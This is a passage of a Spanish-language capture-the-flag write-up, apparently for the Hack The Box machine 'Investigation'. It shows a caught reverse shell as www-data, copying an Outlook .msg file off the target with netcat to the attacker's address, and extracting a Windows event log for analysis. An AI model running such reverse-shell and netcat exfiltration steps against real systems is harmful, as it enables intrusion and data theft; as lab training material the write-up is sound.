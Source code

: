 ```bash
listening on [any] 443 ...
connect to [10.10.14.25] from (UNKNOWN) [10.10.11.197] 51368
sh: 0: can't access tty; job control turned off
$ whoami
www-data
$
```
Buscando encuentro esta ruta con un archivo interesante **.msg**, que corresponde a 
archivos de mensajes de correo **outlook**.

```bash
www-data@investigation:/usr/local/investigation$ ls
'Windows Event Logs for Analysis.msg'   analysed_log
www-data@investigation:/usr/local/investigation$
```
Lo tranfiero a mi maquina para poder analizarlo y ver que contiene.

```bash
❯ nc -nlvp 1234 >  Windows\ Event\ Logs\ for\ Analysis.msg
listening on [any] 1234 ...
connect to [10.10.14.25] from (UNKNOWN) [10.10.11.197] 58518
```
```bash
www-data@investigation:/usr/local/investigation$ nc 10.10.14.25 1234 < Windows\ Event\ Logs\ for\ Analysis.msg 
```
Para abrirlo utilizo el siguiente suitio web.
[MSG-READER](https://products.aspose.app/email/viewer/msg)

![.msg]({{'assets/img/Investigation/Windows-logs.png' | relative_url}})

Veo un mensaje y boton de descarga pero no puedo descargarlo.
Busco y en el siguiente enlace [encryptomatic](https://www.encryptomatic.com/viewer/) obtengo resultados.

![descarga-zip]({{'assets/img/Investigation/descarga-zip.png' | relative_url}})

Lo descargo y veo que contiene un archivo de registro de logs de *Windows*

```bash
❯ unzip -l evtx-logs.zip
Archive:  evtx-logs.zip
  Length      Date    Time    Name
---------  ---------- -----   ----
 15798272  2022-08-01 13:36   security.evtx
---------                     -------
 15798272                     1 file
```
Con la siguiente erramienta vuelco su contenido en otro archivo legible y poder ver que hay.

```bash
❯ evtxexport security.evtx > security.dump
```
![ssh-key]({{'assets/img/Investigation/ssh-key.png' | relative_url}})
